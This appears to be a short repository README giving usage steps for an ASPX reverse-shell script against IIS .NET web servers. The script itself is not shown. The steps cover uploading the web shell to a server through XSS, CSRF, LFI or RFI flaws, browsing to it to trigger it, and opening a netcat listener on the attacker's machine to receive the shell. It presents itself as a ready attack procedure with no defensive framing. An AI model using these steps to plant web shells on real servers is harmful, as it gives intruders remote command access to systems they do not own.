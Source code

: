 # iis_asp_dot_net_reverse_shell.aspx
# NOTE: ASPX script uses example attacker machine IP:PORT - 127.0.0.1:8080

Instructions:

1.) Upload aspx script to iis .net web server vulnerable to: 
xss/csrf/lfi/rfi

2.) Navigate to URL upload path:
http://example.com/iis_asp_dot_net_reverse_shell.aspx

3.) Setup listening port with netcat from attacker machine:
netcat -lv 0.0.0.0 -p 8080
